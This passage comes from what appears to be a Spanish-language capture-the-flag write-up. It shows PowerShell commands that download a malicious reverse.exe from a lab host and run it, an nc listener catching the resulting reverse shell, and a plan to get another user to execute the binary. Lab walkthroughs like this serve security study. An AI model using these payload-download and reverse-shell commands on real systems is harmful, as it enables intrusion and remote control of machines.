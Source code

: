 Desde el equipo Windows (atacante) el cual hemos instalado el `Output Messenger`, procederemos a descargar el binario malicioso y lo ejecutaremos.

```powershell
PS C:\temp> wget 192.168.249.128/reverse.exe -o reverse.exe
PS C:\temp> ls

    Directory: C:\temp

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         1/18/2025  12:57 AM          28160 reverse.exe

PS C:\temp> .\reverse.exe
```

Vemos que funciona la `reverse.exe`, pero al ejecutarlo nosotros manualmente, el usuario que recibimos es el de nuestra máquina Windows (atacante).

```bash
❯ rlwrap -cAr nc -nlvp 444
listening on [any] 444 ...
connect to [10.10.16.5] from (UNKNOWN) [192.168.249.129] 53306
Microsoft Windows [Version 10.0.19045.5371]
(c) Microsoft Corporation. All rights reserved.

C:\temp>whoami
whoami
w10\gzzcoo

C:\temp>
```

Por lo tanto, el objetivo será crear un  nuevo evento para intentar y verificar si el usuario `O.martinez` es capaz de ejecutar el binario malicioso `reverse.exe` correctamente  y obtener una Shell con ese usuario.

<figure><img src="../../../.gitbook/assets/imagen (26).png" alt=""><figcaption></figcaption></figure>
